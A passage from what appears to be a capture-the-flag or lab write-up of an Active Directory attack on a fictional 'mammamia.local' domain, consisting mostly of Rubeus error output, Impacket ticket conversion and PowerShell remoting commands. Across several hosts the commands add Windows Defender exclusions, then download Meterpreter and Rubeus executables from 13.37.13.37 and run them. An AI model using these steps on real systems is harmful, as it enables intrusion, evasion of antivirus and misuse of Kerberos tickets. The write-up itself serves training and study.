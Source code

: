```powershell
[*] Building TGS-REQ request for: 'cifs/factrodc.factories.mammamia.local'

[!] Unhandled Rubeus exception:

System.ComponentModel.Win32Exception (0x80004005): Unknown error (0xc000000d)
   at Rubeus.Crypto.KerberosEncrypt(KERB_ETYPE eType, Int32 keyUsage, Byte[] key, Byte[] data)
   at Rubeus.AP_REQ.Encode()
   at Rubeus.PA_DATA.Encode()
   at Rubeus.TGS_REQ.Encode()
   at Rubeus.TGS_REQ.NewTGSReq(String userName, String domain, String sname, Ticket providedTicket, Byte[] clientKey, KERB_ETYPE paEType, KERB_ETYPE requestEType, Boolean renew, String s4uUser, Boolean enterprise, Boolean roast, Boolean opsec, Boolean unconstrained, KRB_CRED tgs, String targetDomain, Boolean u2u, Boolean keyList)
   at Rubeus.Ask.TGS(String userName, String domain, Ticket providedTicket, Byte[] clientKey, KERB_ETYPE paEType, String service, KERB_ETYPE requestEType, String outfile, Boolean ptt, String domainController, Boolean display, Boolean enterprise, Boolean roast, Boolean opsec, KRB_CRED tgs, String targetDomain, String servicekey, String asrepkey, Boolean u2u, String targetUser, Boolean printargs, String proxyUrl, Boolean keyList)
   at Rubeus.Ask.TGS(KRB_CRED kirbi, String service, KERB_ETYPE requestEType, String outfile, Boolean ptt, String domainController, Boolean display, Boolean enterprise, Boolean roast, Boolean opsec, KRB_CRED tgs, String targetDomain, String servicekey, String asrepkey, Boolean u2u, String targetUser, Boolean printargs, String proxyUrl, Boolean keyList)
   at Rubeus.Commands.Asktgs.Execute(Dictionary`2 arguments)
   at Rubeus.Domain.CommandCollection.ExecuteCommand(String commandName, Dictionary`2 arguments)
   at Rubeus.Program.MainExecute(String commandName, Dictionary`2 parsedArgs)

C:\Windows\Temp\attacker>
```

Googling the error codes `0x80004005` and `0xc000000d` will not reveal any relevant results. Let's instead try to use Impacket to parse the ticket:

```bash
user@zero:~/MammaMia$ echo doIGiTCCBoWgAwIBBaEDA[...] | base64 -d > ticket.kirbi
user@zero:~/MammaMia$ ticketConverter.py ticket.kirbi ticket.ccache
Impacket v0.11.0 - Copyright 2023 Fortra

[*] converting kirbi to ccache...
[+] done
user@zero:~/MammaMia$ export KRB5CCNAME=ticket.ccache 
user@zero:~/MammaMia$ klist
Ticket cache: FILE:ticket.ccache
Default principal: silvia.galli@FACTORIES.MAMMAMIA.LOCAL

Valid starting       Expires              Service principal
05/17/2024 23:53:37  05/18/2024 09:53:37  krbtgt/FACTORIES.MAMMAMIA.LOCAL@FACTORIES.MAMMAMIA.LOCAL
 renew until 05/24/2024 23:53:37
user@zero:~/MammaMia$
```

This seems to work fine. But let's actually try to use the ticket to authenticate to the `FACTRODC` computer. I'll be setting up a socks proxy using the Meterpreter session, as shown below:


[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      